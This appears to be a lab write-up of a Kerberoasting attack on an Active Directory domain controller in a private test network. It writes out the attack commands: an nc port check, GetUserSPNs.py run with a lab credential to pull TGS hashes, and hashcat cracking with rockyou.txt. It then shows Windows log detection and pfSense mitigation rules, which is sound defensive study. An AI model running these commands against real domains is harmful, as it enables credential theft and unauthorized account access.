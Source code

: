 # Active Directory Attack Playbook (Kerberos-based SPN Extraction and Credential Compromise)

## Overview

- **Target:** Active Directory Domain Controller (within the soc.lab domain)
  - **IP Address:** 192.168.10.10
  - **Domain:** SOC.LAB

- **Attacker:** Kali
  - **IP Address:** 192.168.20.30

## Objective

The objective of this attack was to enumerate and extract Service Principal Names (SPNs) from the Active Directory environment, then crack the Kerberos TGS hashes to gain unauthorized access to domain accounts. Prior attacks had already revealed user credentials and access to the Active Directory domain, facilitating this attack.

## Attack Execution Timeline

1. **Kerberos Port Check**
   - Verified that the Kerberos service (port 88) is open on the Domain Controller:
     ```bash
     nc -vz 192.168.10.10 88
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

2. **DNS Configuration Update**
   - Updated the default DNS IP to point directly to the Domain Controller.
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

3. **SPN Extraction**
   - Ran the `GetUserSPNs.py` script from the mpacket toolkit to request SPNs and attempt Kerberos TGS hash extraction:
     ```bash
     python3 GetUserSPNs.py SOC.LAB/labadmin:Root1234! -request
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

4. **Hash Cracking**
   - Cracked the extracted Kerberos TGS hash using hashcat with the rockyou.txt wordlist, saving the results to `cracked.txt`:
     ```bash
     hashcat -m 13100 spn_hash.txt /usr/share/wordlists/rockyou.txt --force -o cracked.txt
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

## Monitoring Windows Logs

### Sysmon Logs Analysis

- **Observation:**
  - Multiple Sysmon log entries with **Event ID 3** were observed.
  - All connections originated from IP `192.168.10.10`, targeting `192.168.20.30`.
  - Different ephemeral ports were utilized, indicating automated scanning or communication.
- ![multipleSysmonlogs](https://github.com/user-attachments/assets/01ab753c-f8f0-42d1-8882-62f2a652937a)

### Windows Security Logs

- **Event ID 4769 – Kerberos Service Ticket Request**
  - Numerous requests for Kerberos Service Tickets were recorded from the same source IP.
- ![kerberos_tickets](https://github.com/user-attachments/assets/9275278e-067c-466c-a2bd-3fc551e18f81)

### Detailed User Log Analysis

- **User Activity:**
  - Analysis of individual logs showed multiple ticket requests for user accounts such as *Jordan* and *Candace*.
  - **User Jordan:**  
    ![Jordan](https://github.com/user-attachments/assets/4aab463d-1130-48ea-affc-d23800dd389f)
    
  - **User Candace:**  
    ![candace_rojas](https://github.com/user-attachments/assets/0fa652ef-089b-4bde-97b4-280412b502bf)

- **Logoff Event:**
  - Shortly after the last Kerberos Service Ticket Request, a **Logoff** event (Event ID 4634) was recorded for user `labadmin`.
  - ![logoff](https://github.com/user-attachments/assets/11d039c9-4803-432e-ae34-a427b6db934a)


## **Firewall Rules on pfSense to Mitigate this:**
1- **Create an Alias for Internal Systems:**

 - ![aliases](https://github.com/user-attachments/assets/103ebae0-d0c5-4883-b196-d6356225c08c)


2- **Block Unauthorized Kerberos Requests:**
 - ![firstrule](https://github.com/user-attachments/assets/116965fc-3f84-4b72-b76b-414d10214746)

Explanation:
- This rule blocks any Kerberos traffic (port 88) from devices that are not domain controllers, which prevents unauthorized users from interacting with the Kerberos service and reduces the risk of Kerberoasting.

3- **Limit External and Internal LDAP Queries:**
- ![rule3](https://github.com/user-attachments/assets/d31cc115-efc6-4a93-b269-133962b478db)

This prevents attackers from using LDAP enumeration tools (like GetUserSPNs.py), a well knowed script, to extract Service Principal Names. LDAP is only needed for trusted systems—blocking it for regular users reduces exposure, like we've just seen.

Note: In this experiment, CrowdSec was disabled to allow this action to proceed.

